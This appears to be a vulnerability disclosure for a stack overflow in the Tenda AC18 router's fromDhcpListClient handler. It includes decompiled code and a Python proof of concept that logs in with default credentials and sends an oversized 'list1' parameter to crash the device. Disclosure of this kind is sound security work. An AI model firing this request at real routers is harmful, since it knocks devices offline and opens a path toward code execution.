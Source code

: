 ## Tenda AC18 stack overflow vulnerability

### * Version

V15.03.05.19_multi ac18_kf_V15.03.05.19(6318_)_cn.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2683.html](https://www.tenda.com.cn/download/detail-2683.html)


### * Vulnerability Detail

In function fromDhcpListClient, the strings "%s%d" and "list" are combined into a new parameter "list*". The content obtained by the program from the parameter "list*" is passed to local_20, 
and then the local_20 is directly copied into the acStack545 + 1 stack through the strcpy function. 
There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.

```c
void fromDhcpListClient(undefined4 param_1)

{
  size_t sVar1;
  int iVar2;
  undefined4 local_370;
  undefined4 local_36c;
  undefined4 local_368;
  undefined4 local_364;
  undefined local_360;
  char acStack608 [63];
  char acStack545 [257];
  char acStack288 [256];
  char *local_20;
  undefined4 local_1c;
  char *local_18;
  int local_14;
  
  local_14 = 0;
  memset(acStack608,0,0x40);
  local_18 = (char *)FUN_0002ba8c(param_1,"LISTLEN",&DAT_000ee1a8);
  local_1c = FUN_0002ba8c(param_1,"page",&DAT_000ee1b4);
  local_360 = 0;
  local_14 = 1;
  while (iVar2 = atoi(local_18), local_14 <= iVar2) {
    local_370 = 0;
    local_36c = 0;
    local_368 = 0;
    local_364 = 0;
    sprintf((char *)&local_370,"%s%d","list",local_14);
    local_20 = (char *)FUN_0002ba8c(param_1,&local_370,&DAT_000ee1c8);
    if ((local_20 == (char *)0x0) || (*local_20 == '\0')) break;
    /*   
    overflow
    */
    strcpy(acStack545 + 1,local_20 + 1);  //here is overflow
    sVar1 = strlen(acStack545 + 1);
    acStack545[sVar1] = '\0';
    sprintf(acStack608,"dhcps.Staticip%d",local_14);
    SetValue(acStack608,acStack545 + 1);
    local_14 = local_14 + 1;
  }
  SetValue("dhcps.Staticnum",local_18);
  sprintf(acStack288,"/network/lan_dhcp_static.asp?page=%s",local_1c);
  iVar2 = CommitCfm();
  if (iVar2 != 0) {
    PostMsgToNetctrl(3);
  }
  FUN_0002be4c(param_1,acStack288);
  return;
}
```

### * POC

```python
import requests


cmd  = b'LISTLEN=1&page=&list1=' + b'A' * 800


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/DhcpListClient/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()
```
